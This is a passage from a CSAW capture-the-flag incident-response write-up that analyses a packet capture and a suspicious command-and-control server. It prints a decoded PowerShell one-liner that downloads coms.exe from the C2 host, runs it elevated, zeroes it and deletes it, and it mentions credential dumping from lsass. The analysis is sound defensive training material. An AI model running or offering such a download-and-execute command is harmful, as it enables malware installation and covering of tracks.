 ![api docs](/assets/posts/csaw-ir/HJq8iwSkT.png)

Voila! We now have all the endpoints of the suspicious server.

![static.html](/assets/posts/csaw-ir/Bkxh9jwByp.png)
```shell=
[rbadhe@ar2ch ~]$ echo SW52b2tlLVdlYlJlcXVlc3QgLVVyaSBodHRwOi8vaW5mZWN0ZWQtYzIuY3Nhdy5pby9zdGF0aWM/ZmlsZT1jb21zLmV4ZSAtT3V0RmlsZSBDOlxVc2Vyc1xQdWJsaWNcY29tcy5leGU7U3RhcnQtUHJvY2VzcyBDOlxVc2Vyc1xQdWJsaWNcY29tcy5leGUgLVZlcmIgcnVuQXM7U2V0LUNvbnRlbnQgLVBhdGggQzpcVXNlcnNcUHVibGljXGNvbXMuZXhlIC1WYWx1ZSAoJzAnKigoR2V0LUNvbnRlbnQgLVBhdGggQzpcVXNlcnNcUHVibGljXGNvbXMuZXhlKS5MZW5ndGgpKTtSZW1vdmUtSXRlbSAtTGl0ZXJhbFBhdGggQzpcVXNlcnNcUHVibGljXGNvbXMuZXhlOw== | base64 -d
Invoke-WebRequest -Uri http://infected-c2.csaw.io/static?file=coms.exe -OutFile C:\Users\Public\coms.exe;Start-Process C:\Users\Public\coms.exe -Verb runAs;Set-Content -Path C:\Users\Public\coms.exe -Value ('0'*((Get-Content -Path C:\Users\Public\coms.exe).Length));Remove-Item -LiteralPath C:\Users\Public\coms.exe;
```

Decoding the base64 of the redirect in `static.html`, we see that the command downloads `coms.exe`, runs it with privileges, zeros the file, and then deletes it. This is VERY suspicious behaviour so we can be confident this is our virus.

Looking through the pcap further, I see `runs0mewhere.exe` and `lat.ps1` also being downloaded after a `POST` request to `/process_minidump`. I extracted the file uploaded to the server and tried analyzing it in windbg. The only thing I could find from the dump is that it involves `lsass.exe`, the dump is named `FXSTIFFDebugLogFileAdmin.txt`.
